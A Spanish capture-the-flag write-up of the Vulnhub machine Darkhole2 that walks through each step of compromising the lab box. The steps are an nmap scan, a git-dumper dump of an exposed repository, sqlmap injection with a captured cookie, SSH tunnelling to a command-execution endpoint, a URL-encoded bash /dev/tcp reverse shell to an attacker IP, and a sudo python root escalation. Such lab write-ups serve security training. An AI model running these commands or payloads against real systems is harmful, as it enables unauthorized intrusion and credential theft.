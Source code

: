# Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema se pondra a prueba en VirtualBox

![descripcion](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/descripcion.jpg)

## Escaneo de Red
En primer lugar, tenemos que obtener la dirección IP del objetivo

![uso del netdiscover](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/netdiscover.jpg)

~~~
netdiscover
~~~

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

~~~
nmap -A 192.168.40.133
~~~

![uso del nmap](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/nmap.jpg)

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22.
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git.

## Enumerar el servidor web
Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

![visualizacion de laweb](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/web.jpg)

Decidimos echar un vistazo a la página de inicio de sesión.

![vista login](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/login.jpg)

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.
![vista repositorio git](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git.jpg)

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

![vista gitclone](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitclone.jpg)
~~~
cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup
~~~

Después de descargar la herramienta, intentamos ejecutarla con python .

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/gitdumpe%20python.jpg)
~~~
python3 git_dumper.py http://192.168.40.133/.git/ backup
~~~

Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para continuar.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

![vista gitlog](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/git%20log.jpg)
~~~
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10
~~~

Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

~~~
Email: lush@admin.com
Password: 321
~~~

## Explotación
Nos logeamos en esa página, parece ser adecuada para tácticas relacionadas con la inyección de SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/375d0afe-a663-4ae2-8ed7-7b8d8306ebf3)

### BURP SUITE
Entonces, usamos burpsuite para recopilar las cookies de esta página. Será ventajoso para nuestra estrategia de inyección SQL.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/67b83dec-2f36-473b-a4fa-3e095e98f890)

### Usando SQLMAP
Insertamos la cookie capturada anteriormente en sqlmap 

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/a1530d38-1748-4d26-be2e-8bea8c6bd538)
![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/6f481be5-6ea5-4d6d-a0b4-cc0253ba88c4)
~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" --dbs –batch
~~~

Obtuvimos algunas bases de datos en cuestión de minutos. Entonces, iniciamos otro comando (usando el parámetro -D) para volcar la base de datos llamada darkhole_2

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3cd9ae27-b481-4022-a0bf-34499d6aa230)

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/3480ebbb-a385-4252-b9d4-659b051f6225)

~~~
sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="PHPSESSID=674p5g2tk29ieclq6iqdtc2mu4" -D darkhole_2 --dump-all --batch
~~~

En cuestión de momentos, descubrimos las credenciales ssh para el usuario Jehad en esta base de datos de volcado. 

~~~
User: jehad
Pass: fool
~~~

Ahora, usando estas credenciales ssh, iniciamos sesión con el usuario Jehad y abrimos su identificación para autenticarlo.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/cf4abf46-fdfd-475e-95b5-290e7efff130)

~~~
ssh jehad@192.168.40.133
id
~~~

## Escala de privilegios

Vemos un cron  que se ejecuta con el usuario losy.

Aquí podemos ver que un servidor web se está ejecutando en el puerto 9999. Cuando vemos el contenido del código fuente, vemos que esto permite la ejecución remota de comandos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/dc94e9dc-3ae6-4bb0-8952-f6756a3bdcb7)

    cat /etc/crontab

Por lo tanto, podemos tunelizar el puerto 9999 usando SSH de la siguiente manera.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/114f1fdc-9351-4819-82fa-3deaad1243f6)

Ha llegado el momento de lanzar este asalto. Intentamos iniciar sesión como el usuario jehad, utilizando los detalles del reenvío de puertos locales proporcionados en los resultados anteriores que obtuvimos.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/51057c2c-55c0-431d-9b7f-74c05d631591)

    ssh -L 9999:127.0.0.1:9999 jehad@192.168.40.133

Luego, podría visitar 127.0.0.1:9999 para el RCE.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d2d24d1f-ac23-4737-b236-7b3fd5a142d3)

    http://127.0.0.1:9999/?cmd=id

Ahora, podemos obtener un reverse shell con el usuario losy. Para eso, estoy escuchando en el puerto 9001.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/blob/main/imagenes/shellr.jpg)

    nc -nlvp 9001

El siguiente payload me daría un reverse shel.

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

En formato url   &->%26  (URL encode)

    bash -c 'bash -i >%26 /dev/tcp/192.168.40.128/9001 0>%26

Mandamos el payload cambiando id por el cofificado en URL previamente realizado en el paso anterior. http://127.0.0.1:9999/?cmd=id
  
    http://127.0.0.1:9999/?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.40.128/9001 0>%261'

Obtenemos respuesta del Puerto de escucha:

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/61540892-f8c6-4f7b-9935-4cbe60706754)

~~~
cd
ls -la
cat user.txt
cat.bash history
~~~

Descubrimos las credenciales de inicio de sesión de losy en este archivo de historial de bash.

    losy: gang

Después de eso, probamos los permisos sudo de este usuario. Descubrimos que podíamos llegar a la raíz usando una sola línea de python

~~~
sudo –S –l
gang
~~~

Ahora ejecuta este one-liner de python con sudo y la credencial losy.

![image](https://github.com/RamosAlicer/Darkhole2-Vulnhub-Writeup/assets/129236342/d4a26c9c-18d0-470f-a940-eba826879334)

~~~
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
cd
cat root.txt
~~~

Obtuvimos usuario root con acceso a la raiz
